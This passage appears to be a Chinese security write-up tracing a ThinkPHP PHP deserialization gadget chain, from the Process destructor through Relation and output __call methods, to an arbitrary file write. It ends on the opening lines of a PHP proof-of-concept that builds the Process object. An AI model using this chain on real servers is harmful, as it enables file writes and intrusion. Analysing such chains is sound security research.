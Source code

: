 *   找到入口点为 Process 类的析构方法，跟进
    
*   调用了 stop 方法
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbdDv9NJ7ObH8YbC7JDyxdHw7xvuyBUINNMb1IhMgu84N9gBmxUiar5vw/640?wx_fmt=png)
    

构造中间节点

*   跟进 stop 方法
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbTkCFyVpxWT69b0poPlSiabQGMkFxJ1SusYoATLot14SWIneofZRvryQ/640?wx_fmt=png)
    
*   此处需要跳过第一处的判断，跟进 isRunning 方法，很简单
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbPROyb9J3gQmoxWPIr4bJ2BSKasm2YyXPAzaxADFaFbiabw5ooXI4sxA/640?wx_fmt=png)
    
*   第二处的判断可控，进入 close 方法，跟进
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbmasTCYnnBUiasT6jUBuf4VfRdzOkVJqibvCxxOiaA9Posm1qvVyPHklcw/640?wx_fmt=png)
    
*   此处可直接触发\_\_call 方法
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbkkdzibaqYWIhE3FD8dXM4Pia83feZOhpIbRzl1ItGaSVRNDC0OqJym0g/640?wx_fmt=png)
    
*   但是在调用 block 方法后，由于 block 需要一个字符型的参数值，而我们没有进行传参，所以会抛出需要参数值的异常
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbp6cG4Z5HEvuVNWfoJhkOm2ure5cduRKAQZCDHlnfDqszSICSr0WWibg/640?wx_fmt=png)
    
*   所以需要在增加中间节点，找到了这么一处，Relation 类得\_\_call 方法
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZb3cQILuA0n3vRy5oReBG0o7PibpwjMic3qJ6fZf2n4JXx7cmzGwsbGpCA/640?wx_fmt=png)
    
*   上面类可控并且参数值可控，算是挺完美的触发点了
    
*   继续调用 output 类得\_\_call 方法，即可完成文件写入操作
    
*   完整的流程图不在画了
    

### 构造 POC

测试代码

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbRIlRVA2viajCEAxrPVkuO7621S0lGcrwB4JdGLR3icwVp1BudhZaSDEQ/640?wx_fmt=png)

虽然抛出致命错误，但并不影响文件生成

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoEau0P6QRyzcOAs4YoplZbdYGTaTiarSia1L1WTq2tNafzeibnQX7q8uFEmWYBp1TzgGFKmnT1SxqvQ/640?wx_fmt=png)

### POC

```
<?php
//修改入口类，添加中间Relation类得call方法跳转
namespace think{
 use think\\model\\Relation;
 class Process{
 private $status = '';
 private $processPipes;
 private $processInformation;
 function \_\_construct(){
 $this->processInformation = \['running'=>'1'\];
 $this->status = 'starte';
 $this->processPipes = new Relation();
 }
 }
}
namespace think\\model{
```